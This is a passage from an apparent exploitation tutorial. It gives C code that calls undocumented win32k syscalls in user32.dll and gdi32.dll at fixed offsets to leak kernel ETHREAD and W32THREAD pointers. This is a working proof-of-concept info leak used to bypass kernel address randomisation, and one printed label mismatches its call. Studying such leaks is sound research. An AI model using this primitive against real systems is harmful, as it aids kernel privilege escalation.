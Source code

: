 lNtUserGetAsyncKeyState pNtUserGetAsyncKeyState = (lNtUserGetAsyncKeyState)((DWORD_PTR)hUser32 + 0xA2F4);
</pre>
We then call the function and use inline assembly to grab the value which was left in eax and print it.
<pre>
pNtUserGetAsyncKeyState(20);
unsigned int ethread = 0;
__asm {
	mov ethread, eax;
}
printf("NtUserGetAsyncKeyState ETHREAD partial disclosure: 0x%X\r\n", ethread);
</pre>
We then do the same again for NtUserModifyUserStartupInfoFlags.
<pre>
lNtUserModifyUserStartupInfoFlags pNtUserModifyUserStartupInfoFlags = (lNtUserModifyUserStartupInfoFlags)((DWORD_PTR)hUser32 + 0x64D4B);

pNtUserModifyUserStartupInfoFlags(20, 12);
unsigned ethread_full = 0;
__asm {
	mov ethread_full, eax;
}
printf("NtUserModifyUserStartupInfoFlags ETHREAD full disclosure: 0x%X\r\n", ethread_full);
</pre>
Next up we need to call the functions which disclose the W32THREAD pointer, these are both defined in gdi32.dll so we get a handle to the DLL and call the functions as before.
<pre>
HMODULE hGDI32 = LoadLibraryA("gdi32.dll");
if (hGDI32 == NULL) {
	printf("Failed to load gdi32");
	return 1;
}

lNtGdiFONTOBJ_vGetInfo pNtGdiFONTOBJ_vGetInfo = (lNtGdiFONTOBJ_vGetInfo)((DWORD_PTR)hGDI32 + NtGdiFONTOBJ_vGetInfoAddress);
FONTOBJ surf = { 0 };
FONTINFO finfo = { 0 };
pNtGdiFONTOBJ_vGetInfo(&surf, 123, &finfo);

long int w32thread = 0;
__asm {
	mov w32thread, eax;
}


printf("NtGdiEngUnLockSurface W32THREAD full disclosure: 0x%X\r\n", w32thread);


lNtGdiPATHOBJ_vEnumStartClipLines pNtGdiPATHOBJ_vEnumStartClipLines = (lNtGdiPATHOBJ_vEnumStartClipLines)((DWORD_PTR)hGDI32 + 0x47263);
PATHOBJ pathobj = { 0 };
CLIPOBJ pco = { 0 }; 
SURFOBJ pso = { 0 };
LINEATTRS pla = { 0 };
pNtGdiPATHOBJ_vEnumStartClipLines(&pathobj, &pco, &pso, &pla);
w32thread = 0;
__asm {
	mov w32thread, eax;
}
printf("NtGdiPATHOBJ_vEnumStartClipLines W32THREAD full disclosure: 0x%X\r\n", w32thread);
</pre>
Once the code is built and ran, we can see the addresses being leaked :D
